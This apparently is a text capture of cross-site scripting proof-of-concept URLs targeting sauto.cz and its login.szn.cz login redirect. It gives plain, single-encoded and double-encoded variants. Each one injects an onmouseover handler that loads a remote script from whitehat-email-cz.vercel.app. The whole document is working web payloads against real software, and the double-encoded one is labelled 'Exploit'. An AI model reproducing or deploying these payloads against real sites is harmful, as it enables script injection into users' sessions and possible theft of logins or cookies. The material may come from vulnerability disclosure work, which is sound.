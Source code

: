 # Plain
https://www.sauto.cz/bannerova-reklama?perPage=1&banner=1&clickthru=/%22onmouseover=%22let%20s%20=%20document.createElement(%27script%27);%20s.setAttribute(%27src%27,%27https://whitehat-email-cz.vercel.app//index.js%27);%20document.head.appendChild(s)

# Single encoded not working
https://login.szn.cz/continue?service=sauto&return_url=https://login.sauto.cz/loginDone?service=sauto&return_url=https%3A%2F%2Fwww.sauto.cz%2Fbannerova-reklama%3FperPage%3D1%26banner%3D1%26clickthru%3D%2F%2522onmouseover%3D%2522let%2520s%2520%3D%2520document.createElement%28%2527script%2527%29%3B%2520s.setAttribute%28%2527src%2527%2C%2527https%3A%2F%2Fwhitehat-email-cz.vercel.app%2Findex.js%2527%29%3B%2520document.head.appendChild%28s%29

# Exploit (double encoded)
https://login.szn.cz/continue?service=sauto&return_url=https%3A%2F%2Flogin.sauto.cz%2FloginDone%3Fservice%3Dsauto%26return_url%3Dhttps%253A%252F%252Fwww.sauto.cz%252Fbannerova-reklama%253FperPage%253D1%2526banner%253D1%2526clickthru%253D%252F%252522onmouseover%253D%252522let%252520s%252520%253D%252520document.createElement%2528%252527script%252527%2529%253B%252520s.setAttribute%2528%252527src%252527%252C%252527https%253A%252F%252Fwhitehat-email-cz.vercel.app%252Findex.js%252527%2529%253B%252520document.head.appendChild%2528s%2529